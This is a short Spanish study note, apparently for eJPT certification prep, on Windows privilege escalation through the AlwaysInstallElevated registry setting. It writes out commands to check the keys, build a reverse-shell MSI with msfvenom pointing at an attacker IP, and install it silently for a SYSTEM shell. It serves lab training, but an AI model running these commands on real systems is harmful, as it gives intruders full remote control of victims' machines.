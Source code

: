- Consulta el registro de las claves AlwaysInstallElevated:

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated   reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Tenga en cuenta que ambas teclas están configuradas en 1 (0x1).

- En Kali, genere un shell inverso Windows Installer (reverse.msi) usando msfvenom. Actualice la dirección IP de LHOST en consecuencia:  

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
```

- Transfiera el archivo reverse.msi al directorio C:\PrivEsc en Windows (use el SMB método de servidor de antes).

- Inicie un oyente en Kali y luego ejecute el instalador para activar un shell inverso que se ejecuta con privilegios SYSTEM:  

```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Registry - AutoRuns]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]

